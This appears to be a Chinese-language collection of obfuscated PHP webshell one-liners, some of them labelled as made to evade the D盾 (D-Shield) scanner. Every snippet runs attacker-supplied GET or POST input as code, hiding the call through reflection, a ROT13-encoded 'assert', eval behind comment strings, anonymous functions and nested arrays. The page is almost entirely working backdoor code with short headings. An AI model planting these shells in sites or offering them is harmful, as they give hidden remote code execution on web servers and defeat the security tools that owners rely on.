 **类反射绕过**

```
<?php
    class aassert{
        public $s;  
    }
    $a=new ReflectionClass('aassert');
    @$a->s=$_POST['mr6'];
    $b=substr((string)$a->getName(),1);
   @$b($a->s);
?>
```

**极简一句话**

```
<?php
$data=str_rot13("nffreg");
$n=[$data,$_GET['a']];
[""=>$n[0]($n[1])];
?>
```

**极简一句话2**

```
<?php
$_=[$_GET['a']];
[eval("//愚蠢的凡人\n".$_[0])];
?>
```

**不一样的匿名函数写法**

参考链接：[https://codeday.me/bug/20181026/327968.html](https:_codeday.me_bug_20181026_327968)

```
<?php
$upper=function (){
    if(isset($_GET['a'])) {
        $_=[$_GET['a'],$_GET['b']];
        $__=array([$_[0]])[0][0];
        $___=array([$_[1]])[0][0];
        [$__($___)];
    }
};
echo [$upper()];
?>
```

**仙法*数组过D盾*

```
搞的过程发现多维数组和数组的下标不一样可以使D盾报一级
<?php
$_=array([[["你真的很多BUG耶",$_GET['a']]]]);
eval($_[0][0][0][1]);
?>
```
